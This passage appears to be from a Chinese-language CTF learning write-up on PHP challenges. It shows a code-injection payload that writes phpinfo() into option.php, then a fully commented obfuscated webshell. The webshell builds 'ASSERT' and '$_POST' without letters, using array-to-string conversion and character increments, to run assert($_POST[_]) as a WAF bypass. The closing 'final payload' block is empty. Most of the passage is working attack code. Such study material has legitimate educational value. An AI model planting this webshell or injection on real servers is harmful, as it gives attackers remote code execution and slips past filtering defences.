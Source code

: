 `option=222%27;%0aphpinfo();\\`


xxxxx/option.php内容会变为：
![](https://1dayluo.github.io/post-images/1599127711676.png)

## Challenge5 webshell、waf绕过
利用的是当字符串与数组拼接后为一个字符串，值为Array。测试如下（php5下5.4及以上的能用。5.2,5.3，php7都没这个特性）
![](https://1dayluo.github.io/post-images/1599127747253.png)
payload（ https://chybeta.github.io/2017/07/15/%E4%B8%80%E9%81%93%E5%A5%BD%E7%8E%A9%E7%9A%84webshell%E9%A2%98/ ）
*刚开始学习阶段，打算先从学习别人如何写开始
````php
<?php
$_='';$_[+$_]++;
$_=$_.'';    //获取字符串：“Array”。
$__=$_[+'']; //获取大写字母A $__为"A"
$_ = $__; //$_为A 
$___=$_; //$__为A
$__=$_; //$__为A 
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; //$__此时为S
$___.=$__;//$___为AS
$___.=$__; //$__为ASS
$__=$_;//$__为A
$__++;$__++;$__++;$__++;//$__为E
$___.=$__;
$__=$_; //$__初始化为A
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; //$__此时为R
$___.=$__; //$___此时为ASSER
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//$__此时为T
$___.=$__; //$___此时为ASSERT
$____='_';//$___此时值为_
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; //$_此时为P
$____.=$__; //_P ？？？
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$____.=$__; //_PO
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$____.=$__; //_POS
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$____.=$__;//_POST
$_=$$____;//$_的值为$POST;
$___($_[_]);  //最终$___为ASSERT，$_为$_POST组合起来就是ASSERT($_POST[_])
//最后burpsuite抓包赋值给_
````
最终payload
````php
````